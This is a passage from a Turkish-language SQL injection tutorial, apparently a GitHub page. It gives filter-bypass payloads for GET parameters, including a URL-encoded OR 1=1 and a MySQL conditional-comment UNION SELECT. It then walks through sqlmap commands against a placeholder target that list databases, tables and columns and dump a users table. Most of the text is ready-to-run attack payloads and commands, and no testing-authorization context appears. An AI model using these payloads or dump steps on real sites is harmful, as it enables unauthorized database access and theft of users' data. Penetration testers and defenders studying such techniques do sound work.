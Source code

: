 4️⃣ GET SQLi Bypass Teknikleri
Bazı güvenlik önlemlerini aşmak için şu teknikler kullanılabilir:
🔹 1. URL Encoding (Filtre Aşma)
Eğer doğrudan tırnaklar (') engelleniyorsa, URL encoding kullanılabilir:
plaintext
```sql
https://target.com/product.php?id=5%27%20OR%201=1--
```

📌 %27, ' karakterinin URL kodlanmış halidir.
🔹 2. SQL Komutlarını Değiştirme Bazı filtreleme sistemleri standart SQL kelimelerini engelleyebilir. Bunu aşmak için:
plaintext
```sql
https://target.com/product.php?id=5 /*!50000 UNION */ SELECT 1,2,3--
```

📌 /*!50000 MySQL’in koşullu yorum özelliğini kullanır ve filtreleri atlatabilir.

📌 SONUÇ
✅ GET SQLi Açığını Test Etme
id parametresine ' ekleyerek hata mesajı olup olmadığını kontrol et.
AND 1=1 ve AND 1=2 sorgularını kullanarak Boolean tabanlı test yap.
UNION SELECT ile veri sızdırılıp sızdırılamadığını kontrol et.
```bash
✅ SQLmap ile Otomatik Test
4. sqlmap -u "https://target.com/product.php?id=5" --dbs komutu ile veritabanı yapılarını keşfet.
```
✅ Filtreleri Aşma Teknikleri
5. URL encoding, SQL yorumları ve özel karakter kaçırma yöntemlerini dene.
_______________________________________________________________________________________
📌 SQLmap ile Veritabanındaki Tüm Verileri Görme
1️⃣ Öncelikle veritabanı adlarını listele:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --dbs
```
✅ Bu komut, mevcut veritabanı isimlerini görüntüler.
2️⃣ Bir veritabanı seç ve tabloları listele:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" -D target_db --tables
```
✅ target_db yerine, önceki adımda bulunan veritabanı adını yaz.
3️⃣ Bir tablodaki sütunları listele:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" -D target_db -T users --columns
```

✅ users tablosunun sütunlarını görüntüler.
4️⃣ Tüm verileri çek (döküm al):
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" -D target_db -T users --dump
```
